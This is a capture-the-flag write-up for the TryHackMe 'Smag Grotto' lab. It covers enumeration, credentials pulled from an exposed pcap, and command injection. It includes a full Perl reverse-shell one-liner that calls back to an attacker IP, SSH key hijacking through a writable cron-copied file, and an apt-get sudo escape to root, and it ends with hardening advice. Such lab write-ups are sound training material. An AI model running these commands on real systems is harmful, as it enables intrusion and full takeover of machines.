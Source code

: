 <p style='font-size: 200px' align="center">
  THM : CTF Smag Grotto<br>
  <img src="https://i.imgur.com/o08Runb.png">
</p>

## Table of contents
- [Step 1 : Nmap Scan](#step-1--nmap-scan)
- [Step 2 : Website enumeration](#step-2--website-enumeration)
- [Step 3 : Exploiting the website to get a reverse-shell](#step-3--exploiting-the-website-to-get-a-reverse-shell)
- [Step 4 : Get access to another user than www-data](#step-4--get-access-to-another-user-than-www-data)
- [Final step : Privilège escalation](#final-step--privilege-escalation)
- [Conclusion](#conclusion)


## Step 1 : NMAP Scan
First , we need to scan the target to find open ports.  
```nmap 10.10.21.185 -oN nmapResult``` (I always store the nmap scan result in a file).    
![alt text](https://i.imgur.com/qnZT0cl.png)  
We see 2 open ports :  
- port 22 for ssh  
- port 80 for http -> the target has a website that we can enumerate.  

## Step 2 : Website enumeration
Let's see the website  
![alt text](https://i.imgur.com/PSy4ni0.png)  
Ok, so now we know that this website is under development.  
I start a dirb scan on the target website.
```dirb http://10.10.21.185/ -o dirbResult```  
(Same as nmap, i always store dirb scan result in a file).  
![alt text](https://i.imgur.com/Ezv6GfQ.png)  
We see that dirb found a mail directory ! Let's see what we have at ```http://10.10.21.185/mail/```  
![alt text](https://i.imgur.com/uME2QT1.png)  
There is a pcap file. This can be really useful to find credentials used to connect to the target with diferrent protocols.  
Also, we have three possible logins : 
- ```netadmin@smag.thm```  
- ```uzi@smag.thm```  
- ```jake@smag.thm```  


We also maybe have a domain name : smag.thm  
![alt text](https://i.imgur.com/9p3t4NF.png)  



So we found some interesting things in this pcap file :   
- In the pcap file, there is a hostname : ```development.smag.thm```  
- There is also credentials used in a login.php page  

To access the website development section, I added the line ```10.10.21.185    development.smag.thm``` to the file ```/etc/hosts``` on my machine.  
Now, if a enter ```http://development.smag.thm/``` in the address bar, i enter the hidden development section of the website.  
![alt text](https://i.imgur.com/zSFc88j.png)  


There is two files in here :
- admin.php -> if not logged in, it redirects us to login.php.  
- login.php -> here we can use the credentials we found before in the pcap file.  


So let's try to use the credentials we found in the pcap file to login on the login.php page.
![alt text](https://i.imgur.com/SmbKqGc.png)  


And we are logged in !  
We are automatically redirected to admin.php.  
![alt text](https://i.imgur.com/puRBFr4.png)  

## Step 3 : Exploiting the website to get a reverse-shell
In this page, I tried ```ls``` and ```whoami``` but there was no output. But we can try to get a reverse shell with this command input. I used a perl reverse shell found at https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  
```
perl -e 'use Socket;$i="10.x.x.x";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```  
So I set a netcat listener on port 1234. ```nc -lnvp 1234```, then I send the reverse shell command to the website, and I got a reverse shell !  
![alt test](https://i.imgur.com/Clnpl84.png)  


Let's get a bit more stable shell with python, ```python3 -c 'import pty; pty.spawn("/bin/bash")'```.  
![alt text](https://i.imgur.com/bHf9Wk3.png)  
(And yes the ip address of the target has changed, it's because I restarted the machine... it's a long story...)  

## Step 4 : Get access to another user than www-data
Now that we have a better shell, we can try to read the file ```/etc/passwd```to see users list on this machine ```cat /etc/passwd```.  
![alt text](https://i.imgur.com/4JoLmKd.png)  


We have the user jake, remember, we saw this name before in the /mail directory of the website.  So maybe we can try to connect to the machine as jake. But how can do this ? First I looked in the jake's home directory ```/home/jake```.  
![alt text](https://i.imgur.com/J1zPHY0.png)  


We can see that there is a file named ```.sudo_as_admin_successful```, that means that the user jake succesfully executed a command with sudo in the past. We can keep that in mind. We can't read any useful files, and we can't even go to the .ssh directory to try to find private ssh key... The next thing i've done was to check the crontab ```cat /etc/crontab```. 
![alt text](https://i.imgur.com/Lr8wf9Z.png)


One interesting thing here is that we have a cron task that copy ```/opt/.backups/jake_id_rsa.pub.backup``` to ```/home/jake/.ssh/authorized_keys```. The copied file is probably a public SSH key. After a little bit of research, I found something interesting about SSH public keys here : https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/. As I thought, it is possible to add our own public key to the authorized_keys file to then connect to the target without any password.  

So let's check if we can write to the ```/opt/.backups/jake_id_rsa.pub.backup```file with ```ls -l /opt/.backups/jake_id_rsa.pub.backup```.  
![alt text](https://i.imgur.com/YxCuEme.png)  


And we see that everybody can write to this file... Now we just have to create our own SSH keys and then copy our own public key to this file to connect with SSH as user jake. To generate our own keys, we need to use ```ssh-keygen -f jake_id_rsa```.  
![alt text](https://i.imgur.com/OWYhdS2.png)  


We now have two files :
- jake_id_rsa -> the private key we are going to use to connect with SSH.
- jake_id_rsa.pub -> the public key we need to copy to the ```/opt/.backups/jake_id_rsa.pub.backup``` file.  

I read the content of the public key file on my computer, and then I use ```echo '<MY PUBLIC KEY>' > /opt/.backups/jake_id_rsa.pub.backup``` on the target machine. Also, don't forget to set the right permissions for the private SSH key with ```chmod 600 jake_id_rsa```. And the we can connect with SSH as jake to the machine with ```ssh jake@10.10.24.178 -i jake_id_rsa```.  
![alt text](https://i.imgur.com/CgAIAtx.png)


We are now logged in as jake ! And we can now get the user.txt flag using ```cat user.txt```  
![alt text](https://i.imgur.com/bhPQu8t.png)

## Final step : Privilege Escalation
Now, it's time to get root ! Remember, we found a file named ```.sudo_as_admin_successful```, that means that user jake has already used a command with sudo in the past, so maybe jake has the permission to use a command with sudo without a password. To see this , we use ```sudo -l``` :  
![alt text](https://i.imgur.com/mDH59MY.png)  


We see that user jake can use sudo apt-get, and so execute the apt-get command as root without any password ! Let's see on [GTFOBins](https://gtfobins.github.io/) if we can execute a shell by using apt-get.  
![alt text](https://i.imgur.com/OQHoMBe.png)  
And yes we can ! By using ```sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh```.  
![alt text](https://i.imgur.com/NhQZMuR.png)  
And we have a root shell ! Now we can get the root flag with ```cat /root/root.txt```.  
![alt text](https://i.imgur.com/Ln7GE8p.png)  


## Conclusion
- Mails shouldn't be publicly accessible.
- There shouldn't be a publicly accessible pcap file.
- www-data user should'nt have write permissions on the file ```/opt/.backups/jake_id_rsa_pub.backup```. Maybe we can change the owner of the file with ```chown jake /opt/.backups/jake_id_rsa_pub.backup```and then, delete the write permission for other users than jake with ```chmod 600 /opt/.backups/jake_id_rsa_pub.backup```. So now only user jake can read or write to this file.
- Maybe we can filter commands on the website to avoid reverse shells

Thanks for reading my first write up ! (PS : I'm a beginner in pentesting and CTFs and english is not my native language).
